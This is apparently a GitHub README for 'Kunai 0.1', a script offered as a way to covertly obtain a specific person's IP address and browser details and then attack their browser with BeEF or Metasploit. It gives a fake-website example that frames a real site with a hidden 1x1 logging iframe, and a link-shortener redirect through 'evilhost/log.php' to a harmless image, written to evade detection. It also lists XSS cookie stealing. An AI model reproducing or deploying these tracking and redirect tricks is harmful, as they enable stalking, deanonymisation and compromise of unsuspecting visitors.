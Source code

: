 #Kunai 0.1
Sometimes there is a need to obtain ip address of specific person. This is what you need in such situations.

Kunai is a simple script which collects many informations about a visitor and save output to file; furthermore, you may try to perform attacks on user browser, using beef or metasploit. 

In order to grab as many informations as possible, script detects whenever javascript is enabled to obtain more details about a visitor. For example, you can include this script in iframe, or perform redirects, to avoid detection of suspicious activities. 

#Examples
- Fake website (more stable & better for autopwn & beef):
 ```
<iframe src="https://www.coloradopotguide.com/" style="border: 0; width: 100%; height: 100%"></iframe>
<iframe src="log.php" width="1" height="1" frameborder="0" ></iframe>
```
- Redirect (better for quick ip catching):
```
goo.gl/urlink -> evilhost/log.php -> site.com/kitty.png
```
- Cross Site Scripting (cookie stealing)
